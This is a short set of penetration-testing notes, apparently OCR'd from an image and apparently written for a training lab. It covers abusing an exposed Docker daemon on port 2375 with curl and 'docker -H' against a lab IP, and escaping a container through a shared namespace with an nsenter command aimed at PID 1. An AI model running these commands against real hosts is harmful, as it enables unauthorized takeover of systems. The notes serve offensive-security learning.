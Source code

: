   

- The Docker Engine will listen on a port (default 2375) when configured to be run remotely.

  

# If Docker daemon is running on port 2375, then docker commands can be sent via http calls

  

# Check docker version

curl http://10.10.177.179:2375/version

  

# Running docker commands on remote server

docker -H tcp://10.10.177.179:2375 ps

  

————————————————————————

  

  

1. Abusing Namespace

  

# Find if we are in container

  

# Usually containers have less number of processes

ps aux

  

  

# Abusing the case where containers share the same namespace as host (the container can communicate with the processes on the host)

  

  

Use the following exploit: 

  

nsenter --target 1 --mount --uts --ipc --net /bin/bash

  
